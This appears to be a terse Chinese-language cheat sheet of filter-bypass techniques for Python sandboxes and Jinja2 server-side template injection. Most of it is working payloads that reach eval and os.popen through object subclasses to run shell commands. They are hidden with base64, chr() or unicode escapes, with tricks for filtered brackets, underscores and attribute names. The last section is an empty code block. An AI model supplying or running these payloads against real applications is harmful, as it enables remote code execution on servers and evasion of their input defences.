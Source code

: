 1. 关键字过滤：
```
"__im"+"port__"('o"+"s')
```

2. 编码绕过字符串
```
eval(chr(95)+chr(95)+.....)
```
对引号内的代码进行 base64编码后再后接 `.decode('base64')` 可以进行绕过

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

对引号内的代码进行 unicode 编码后再进行 decode 可以进行绕过。
```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```


3. 绕过中括号
```
xxx.getitem(0)
xxx.pop(40)
xxx.__getitem__(0)
```

4. 指令内绕过. 过滤：(记得多重调用)

字符内绕过
```
getattr(getattr(getattr(getattr)))
```

字符外绕过：
```
{{"".__class__}}={{""['__classs__']}}
```

5. 下划线绕过
```
dir[0][0]=_
```

6. 过滤了引号调用：
```

```

